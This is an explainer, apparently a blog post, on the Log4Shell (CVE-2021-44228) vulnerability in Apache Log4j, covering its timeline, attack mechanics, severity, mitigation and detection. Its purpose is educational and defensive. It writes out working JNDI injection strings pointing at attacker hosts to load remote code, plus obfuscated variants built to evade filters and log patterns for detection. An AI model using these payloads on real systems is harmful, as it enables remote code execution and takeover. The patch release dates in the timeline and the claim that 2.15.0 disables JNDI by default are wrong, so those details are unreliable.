




*LOG4J*, also referred to as **"Log4Shell,"** is a severe and critical zero-day vulnerability found widely in the *Java logging library Apache Log4j*. It's used in many software solutions including Apache, Apple iCloud, Minecraft, and countless others. The vulnerability is **easy to exploit** and enables attackers to gain unauthenticated remote code execution, install crypto miners, deploy botnets, and more.

> **Key Insight**: Log4Shell is one of the most critical vulnerabilities ever discovered, with a CVSS score of 10/10 and affecting millions of systems worldwide.

## Discovery and Timeline

**Early Evidence:**

According to *Cloudflare CEO Matthew Prince*:
> "Earliest evidence we've found so far of [the] Log4j exploit is **2021-12-01 04:36:50 UTC**"

This means the vulnerability was being exploited **before it was publicly disclosed** on December 9, 2021.

**Log4Shell Timeline:**

| **Date** | **Event** | **Details** |
|----------|-----------|-------------|
| Dec 1, 2021 | First exploitation observed | In the wild before disclosure |
| Dec 9, 2021 | Public disclosure | CVE-2021-44228 announced |
| Dec 10, 2021 | Mass scanning begins | Worldwide exploitation attempts |
| Dec 14, 2021 | Version 2.15.0 released | Initial patch (incomplete) |
| Dec 18, 2021 | Version 2.16.0 released | Improved fixes |
| Dec 28, 2021 | Version 2.17.0 released | Additional security hardening |

## The Vulnerability: CVE-2021-44228

### What is Apache Log4j?

*Apache Log4j* is a Java-based logging library widely used in:
- Enterprise applications
- Cloud services
- Web servers
- Mobile applications
- IoT devices
- Gaming platforms (Minecraft)



### The Technical Vulnerability

From the *NIST National Vulnerability Database*:

> "Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker-controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled."

**Translation**: If an attacker can get their input into a log message, they can execute arbitrary code on the server.

## How the Attack Works

The zero-day vulnerability is triggered when a **specially crafted string** supplied by a malicious actor through different input vectors is processed by the Log4J component.

### Attack String

```java
${jndi:ldap://[malicious-site]/exploit}
```

**Components:**
- `${...}` - Log4j lookup syntax
- `jndi:` - Java Naming and Directory Interface
- `ldap://` - LDAP protocol (or ldaps, rmi, dns, iiop, http)
- `[malicious-site]` - Attacker-controlled server
- `/exploit` - Path to malicious Java class

### Exploitation Flow



### Simple Example

**Any of these inputs could trigger the vulnerability:**

```
# In HTTP headers
User-Agent: ${jndi:ldap://attacker.com/a}

# In form fields
username: ${jndi:ldap://attacker.com/a}

# In search queries
?search=${jndi:ldap://attacker.com/a}

# In any logged data
${jndi:ldap://attacker.com/a}
```

## Attack Variants

### Bypassing Initial Patches

**Obfuscated versions to bypass filters:**

```java
${jndi:ldap://evil.com/a} # Basic
${${::-j}${::-n}${::-d}${::-i}:ldap://...} # Obfuscated
${${lower:j}ndi:ldap://...} # Case manipulation
${${upper:j}ndi:ldap://...} # Upper case
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://...} # Fully obfuscated
```

## Severity Assessment

### CVSS Score: 10.0/10

The vulnerability has been scored a **perfect 10** on the CVSS (Common Vulnerability Scoring System) chart.

**Why Maximum Severity?**

| **Factor** | **Rating** | **Reason** |
|------------|-----------|-----------|
| **Attack Vector** | Network | Remotely exploitable |
| **Attack Complexity** | Low | Very easy to exploit |
| **Privileges Required** | None | No authentication needed |
| **User Interaction** | None | No user action required |
| **Scope** | Changed | Affects other components |
| **Confidentiality** | High | Complete data exposure |
| **Integrity** | High | Complete system compromise |
| **Availability** | High | Can cause DoS |



## Global Impact

### Attack Activity

According to the *Microsoft 365 Defender Threat Intelligence Team*:

> "The bulk of attacks that Microsoft has observed at this time has been related to **mass scanning** by attackers attempting to fingerprint vulnerable systems, as well as scanning by security companies and researchers."

**Observed Activities:**
- **Mass scanning** - Finding vulnerable systems
- **Cryptomining** - Installing miners
- **Botnet recruitment** - Adding to botnets
- **Backdoor installation** - Persistent access
- **Ransomware deployment** - Extortion attacks

### Affected Organizations

**Industries Impacted:**
- Technology companies
- Financial services
- Healthcare providers
- Government agencies
- Educational institutions
- Gaming platforms
- E-commerce sites

## Mitigation and Remediation

### Immediate Actions

**It is critical to upgrade Apache Log4j immediately:**

| **Version** | **Status** | **Action** |
|-------------|-----------|-----------|
| **<= 2.14.1** | Vulnerable | **UPGRADE IMMEDIATELY** |
| **2.15.0** | Partial fix | Upgrade to 2.16.0+ |
| **2.16.0** | Better | Upgrade to 2.17.0+ recommended |
| **2.17.0+** | Secure | Current recommended version |

**Key Change**: Version 2.15.0+ **disables JNDI by default**, preventing the vulnerability.

### Upgrade Steps

```bash
# Check Log4j version
find / -name "log4j-core-*.jar" 2>/dev/null

# Update Maven dependency
<dependency>
 <groupId>org.apache.logging.log4j</groupId>
 <artifactId>log4j-core</artifactId>
 <version>2.17.1</version>
</dependency>

# Or set JVM parameter (temporary mitigation)
-Dlog4j2.formatMsgNoLookups=true
```

### Testing for Vulnerability

**Huntress Labs Tool:**

Huntress Labs created a tool to help test whether applications are vulnerable to CVE-2021-44228.

```bash
# Test your application
curl https://log4shell.huntress.com:8080/test-endpoint \
 -H "User-Agent: \${jndi:ldap://huntress-testing.com/test}"

# Check if callback received (indicates vulnerability)
```

> **Important**: This tool is for authorized testing only. Only use on systems you're authorized to test. Follow responsible disclosure guidelines.

### Additional Mitigations

**If immediate upgrade is not possible:**

1. **Set system property:**
 ```bash
 -Dlog4j2.formatMsgNoLookups=true
 ```

2. **Remove JndiLookup class:**
 ```bash
 zip -q -d log4j-core-*.jar \
 org/apache/logging/log4j/core/lookup/JndiLookup.class
 ```

3. **Network controls:**
 - Block outbound LDAP/RMI connections
 - Monitor for exploitation attempts
 - Implement WAF rules

## Detection Methods

### Indicators of Compromise

**Look for:**

```bash
# In logs
${jndi:ldap://
${jndi:rmi://
${jndi:dns://

# Obfuscated variants
${${::-j}${::-n}${::-d}${::-i}:
${lower:jndi:}
```

### Network Indicators



**Monitor for:**
- Outbound LDAP connections (port 389, 636)
- Outbound RMI connections (port 1099)
- Unusual DNS queries
- Java class downloads
- Callback connections

## Long-Term Security

### Prevention Strategies

**Going Forward:**

- **Dependency management** - Track all dependencies
- **Vulnerability scanning** - Regular CVE monitoring
- **Patching process** - Rapid update capability
- **SBOM** - Software Bill of Materials
- **Defense in depth** - Multiple security layers
- **Monitoring** - Detect exploitation attempts

## Resources and Tools

### Official Resources

- [Apache Log4j Security Page](https://logging.apache.org/log4j/2.x/security.html)
- [CISA Log4j Guidance](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance)
- [Huntress Labs Testing Tool](https://log4shell.huntress.com/)

### Community Resources

**Compiled Log4j Resources:**
- [NCSC-NL GitHub](https://github.com/NCSC-NL/log4shell) - Comprehensive resource list
- [Vulnerability scanning tools](https://github.com/fullhunt/log4j-scan)
- [Detection rules (Sigma, Yara)](https://github.com/Neo23x0/signature-base)

## Conclusion

The *Log4Shell* vulnerability (CVE-2021-44228) represents one of the most critical security vulnerabilities in recent history. With a **CVSS score of 10.0**, ease of exploitation, and widespread deployment, it affected millions of systems worldwide.

The vulnerability taught the industry several critical lessons:
- **Dependency awareness** - Know what libraries you use
- **Rapid response capability** - Ability to patch quickly
- **Defense in depth** - No single control is sufficient
- **Supply chain security** - Third-party code matters
- **Monitoring importance** - Detect exploitation attempts

While patches are available and the initial crisis has passed, Log4Shell remains a reminder that a single vulnerability in a widely-used library can have catastrophic global impact.

> **Final Takeaway**: Log4Shell was a wake-up call for the software industry. Maintain awareness of your dependencies, patch promptly, implement monitoring, and prepare for the next critical vulnerability—because there will be another one.

## References

- [Apache Log4j Security](https://logging.apache.org/log4j/2.x/security.html)
- [Microsoft: Log4j Exploitation Guidance](https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/)
- [CISA: Log4j Vulnerability Guidance](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance)
- [Huntress Labs: Log4Shell Testing](https://log4shell.huntress.com/)
- [NCSC-NL: Log4Shell Resources](https://github.com/NCSC-NL/log4shell)
